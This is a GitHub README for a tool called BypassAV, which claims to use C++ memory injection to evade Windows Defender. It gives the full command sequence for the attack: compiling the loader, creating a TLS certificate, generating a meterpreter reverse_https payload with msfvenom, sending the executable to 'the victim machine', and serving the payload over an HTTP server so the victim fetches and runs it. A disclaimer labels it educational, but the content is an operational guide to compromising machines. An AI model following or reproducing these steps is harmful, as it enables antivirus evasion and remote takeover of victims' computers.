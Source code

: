 <h1 align="center">💀Evade Windows AV💀</h1>

<br>

>This repository focuses on storing a memory injection code written in c++ in order to evade windows defender, also using a metasploit payload.
>

>
>Obs: These scripts are for educational purposes only. Use them at your own risk because I will not be responsible for your actions!

>Works on Parrot OS and Kali Linux!
>

<br>

<p align="center">
	<img width="400" height="400" src="https://github.com/EndlssNightmare/BypassAV/blob/main/Fotos/metasploit-ascii-1-2.png">
</p>

<br>

<body>
   <h2 align="left"> Dependences:</h2>

<br>

  >
  >Create a SSL/TLS Certificate:<a href="https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-paranoid-mode.html"> SSL Certificate</a>
  >

  >
  >C/C++ Compiler:<a href="https://www.mingw-w64.org" > Mingw32</a>
  >

  >
  >Metasploit Framework:<a href="https://www.metasploit.com"> Metasploit Framework</a>>
  >
<br>

  <h2 align="left"> How to run the script:</h2>

<br>

Upgrade your apt package: `sudo apt update && sudo apt upgrade`

<br>

Install the C/C++ compiler: `sudo apt-get install g++-mingw-w64-x86-64`

<br>

Compile the code: `x86_x64-w64-mingw32-g++ --static -o name.exe BypassAV.cpp -fpermissive -lws2_32`

<br>

Create a SSL/TLS Certificate: 

<br>

```
$ openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
    -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" \
    -keyout www.example.com.key \
    -out www.example.com.crt && \
cat www.example.com.key  www.example.com.crt > www.example.com.pem && \
rm -f www.example.com.key  www.example.com.crt
```

<br>

Create your own Metasploit configured payload: `msfvenom -p windows/x64/meterpreter/reverse_https lhost=yourip lport=port HandlerSSLCert=/home/kali/www.example.com.pem StagerVerifySSLCert=true -f raw -o beacon.bin`

<br>

Send the executable file to the victim machine.

<br>

Set a listener on msfconsole: `msfconsole -r meta.rc`

<br>

Set a http listener to grab de beacon.bin with the executable on victim machine: `python -m http.server 8000`

<br>

On the executable, set your ip, the port of http server and the beacon.bin file: `./BypassAV.exe YOURIP HTTPPORT beacon.bin`

<br>

## References and Credits:
  
  <br>

  ><a href="https://github.com/TheD1rkMtr/Shellcode-Hide"> Repository reference.</a>
  >
  ><a href="https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-paranoid-mode.html"> Custom SSL/TSL Certificate.</a>
  >
  ><a href="https://www.youtube.com/@gemini_security"> Gemini Security</a>

  <br>

